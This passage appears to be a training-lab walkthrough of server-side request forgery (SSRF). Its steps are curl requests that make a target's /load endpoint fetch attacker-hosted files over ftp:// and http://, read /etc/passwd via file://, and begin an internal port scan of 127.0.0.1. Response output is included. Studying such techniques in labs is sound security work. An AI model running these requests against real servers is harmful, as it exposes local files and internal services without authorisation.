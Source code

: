 
```Shell
sudo python3 -m twisted ftp -p 21 -r .
```

#### 4. Retrieve `index.html` through the target application using the ftp schema, as follows
```Shell
curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html"
```
Output:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 40
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 17 Oct 2023 16:26:29 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>
```
#### 5. Retrieve `index.html` through the target application - HTTP Schema
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"
```
Output:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:26:18 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>
```
#### 6. Retrieve a local file through the target application
```Shell
curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 
```
Bear in mind that fetching remote HTML files can lead to Reflected XSS
### Conduct internal port scan of target server
#### 1. Generate a wordlist containing all possible ports
```Shell
for port in {1..65535}; do echo $port >> ports.txt;done
```
#### 2. Issue a cURL request to a random port to get the response size of a request for a non-existent service
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:1"
```
Output:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 30
Server: Werkzeug/2.0.2 Python/3.8.12
```